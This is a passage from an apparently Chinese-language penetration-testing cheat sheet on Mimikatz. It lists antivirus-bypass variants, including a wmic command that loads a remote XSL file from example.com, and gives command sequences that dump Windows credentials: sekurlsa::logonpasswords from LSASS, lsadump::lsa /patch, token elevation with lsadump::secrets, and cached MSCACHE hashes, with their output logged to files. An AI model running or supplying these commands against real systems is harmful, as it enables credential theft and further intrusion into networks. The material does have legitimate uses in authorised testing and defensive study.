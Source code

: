         ```
        wmic os get /format:"mimikatz.xsl"
        wmic os get /FORMAT:"https://example.com/mimikatz.xsl"
        ```
    - [sct版](https://github.com/TideSec/BypassAntiVirus/blob/master/tools/mimikatz/mimikatz.sct)
- html
    - [Hacking the World with HTML](https://osandamalith.com/2020/07/19/hacking-the-world-with-html/)
    - [OsandaMalith/PE2HTML](https://github.com/OsandaMalith/PE2HTML)
- [Hackndo/lsassy](https://github.com/Hackndo/lsassy)

---

## 基本使用

提权
```bash
privilege::debug    # 获取调试权限
```

抓取密码
```bash
sekurlsa::logonpasswords
```

如果你没有访问 lsass 进程的权限，那你就抓不到密码, 报错如下
```
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

输出
```bash
mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit && dir
# 记录 Mimikatz 输出
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt
# 输出到 log.txt
```

**parameter -patch**
```
privilege::debug
lsadump::lsa /patch
```

**Token Elevation**

获得 MachineAccount 口令 hash
```
privilege::debug
token::elevate
lsadump::secrets
```

输出
```bash
mimikatz.exe ""privilege::debug"" ""token::elevate"" ""lsadump::secrets"" exit >> log.txt
```

**MSCACHE**
```
privilege::debug
lsadump::cache
```
